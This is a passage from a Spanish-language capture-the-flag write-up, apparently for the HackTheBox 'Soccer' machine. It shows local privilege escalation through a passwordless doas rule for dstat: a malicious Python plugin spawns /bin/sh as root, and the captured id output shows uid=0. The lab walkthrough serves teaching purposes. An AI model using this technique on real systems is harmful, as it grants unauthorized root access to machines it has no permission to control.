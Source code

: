 Los permisos de **doas** son asignados en el archivo `doas.conf`, el cual se puede buscar mediante el uso de **find**:
```
player@soccer:~$ find / -iname doas.conf 2> /dev/null

/usr/local/etc/doas.conf

player@soccer:~$ cat /usr/local/etc/doas.conf

permit nopass player as root cmd /usr/bin/dstat
```
El binario permite a player ejecutar el comando **dstat** con privilegios de root. Segun [GTFOBins](https://gtfobins.github.io/gtfobins/dstat/#sudo), guardando la invocacion a una shell en un archivo de python, y llamandolo como un plugin de **dstat**, es posible escalar privilegios. Por lo tanto, simplemente es necesario seguir los pasos y modificarlos ligeramente teniendo en cuenta que en vez de **sudo**, hay que utilizar **doas**:
```
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py

player@soccer:~$ doas -u root /usr/bin/dstat --xxx

/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
La flag se encuentra en `/root/root.txt`
